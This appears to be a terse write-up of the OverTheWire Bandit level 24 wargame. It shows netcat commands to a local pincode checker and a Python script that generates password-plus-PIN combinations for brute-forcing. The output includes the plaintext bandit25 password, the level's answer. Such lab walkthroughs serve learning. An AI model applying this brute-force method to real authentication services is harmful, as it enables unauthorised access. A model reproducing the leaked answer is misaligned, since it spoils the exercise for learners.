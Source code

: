 [ cat flag.txt | tail ]

> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Correct!
> The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
>
> Exiting.

[ cat flag.txt | grep "Wrong!" | wc -l ]

concatenate | print matching pattern "Wrong!" | WordCount until the Line changes

> 9015

[ echo DC33...R..E..D..A..C..T..E..D... 9015 | nc localhost 30002 ]

... c o n f i r m a t i o n  d r i l l s ...

> I am the pincode checker for user bandit25.
> Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
> Correct!
> The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
>
> Exiting.

DC33...R..E..D..A..C..T..E..D...


# --------------------------------- ALT ---------------------------------


## bandit 24 Python Flava

[ which python3 ]

which - returns the pathnames of the files (or links) which would be executed in the current environment.

> /usr/bin/python3

[ nano pinbrute.py ]

> #!/usr/bin/python3
>
> password = "DC33...R..E..D..A..C..T..E..D..."
> 
> for pin in range (5000,10000):
>   print( password + " " + str(pin))
